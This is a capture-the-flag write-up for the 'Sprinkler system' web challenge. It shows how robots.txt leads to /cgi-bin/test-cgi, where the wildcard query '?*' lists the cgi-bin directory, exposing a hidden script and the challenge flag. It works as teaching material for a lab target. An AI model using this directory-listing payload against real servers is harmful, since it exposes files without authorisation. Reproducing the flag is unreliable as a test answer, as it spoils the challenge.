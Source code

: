 # Sprinkler system - Web

### Problem


Sprinkler system - Web (100 + 0)

Damn new york... some chick tricked you into standing in the rain on the very first day... it's payback time!

Solves: 238

Service: http://sprinklers.alieni.se/

Author: avlidienbrunn

flag: SECT{-p001_On_t3h_r00f_must_h@v3_A_l3ak!-}

When you first look at the web page it says not to turn on the sprinklers, but other than that the page doesn't have anything else of importance on it. 


When a web page doesn't have alot of information the first thing I look at is the robots.txt

http://sprinklers.alieni.se/robots.txt

```
User-agent: *
Disallow: /cgi-bin/test-cgi
```

http://sprinklers.alieni.se/cgi-bin/test-cgi

```
argc is 0. argv is .
SERVER_SOFTWARE = Apache/2.4.18 (Ubuntu)
SERVER_NAME = sprinklers.alieni.se
GATEWAY_INTERFACE = CGI/1.1
SERVER_PROTOCOL = HTTP/1.1
SERVER_PORT = 80
REQUEST_METHOD = GET
HTTP_ACCEPT = */*
PATH_INFO = /
PATH_TRANSLATED = /var/www/html/index.html
SCRIPT_NAME = /cgi-bin/test-cgi
QUERY_STRING =
REMOTE_HOST =
REMOTE_ADDR = 141.101.88.193
REMOTE_USER =
AUTH_TYPE =
CONTENT_TYPE =
CONTENT_LENGTH =
```

At first I was confused about what information this was giving me. Then I relized that it is a script that was run on the web server.

Once I figured that out I googled the script /cgi-bin/test-cgi the first link was:

http://insecure.org/sploits/test-cgi.html

The web site shows that there is a vulnerablity in the script 

http://sprinklers.alieni.se/cgi-bin/test-cgi?*

```
CGI/1.0 test script report:
argc is 1. argv is \*.
SERVER_SOFTWARE = Apache/2.4.18 (Ubuntu)
SERVER_NAME = sprinklers.alieni.se
GATEWAY_INTERFACE = CGI/1.1
SERVER_PROTOCOL = HTTP/1.1
SERVER_PORT = 80
REQUEST_METHOD = GET
HTTP_ACCEPT = */*
PATH_INFO = 
PATH_TRANSLATED = 
SCRIPT_NAME = /cgi-bin/test-cgi
QUERY_STRING = enable_sprinkler_system test-cgi
REMOTE_HOST =
REMOTE_ADDR = 172.68.102.79
REMOTE_USER =
AUTH_TYPE =
CONTENT_TYPE =
CONTENT_LENGTH
```

You can see that there is another script in the /cgi-bin/ directory called enable_sprinkler

http://sprinklers.alieni.se/cgi-bin/enable_sprinkler

You get the flag

SECT{-p001_On_t3h_r00f_must_h@v3_A_l3ak!-}
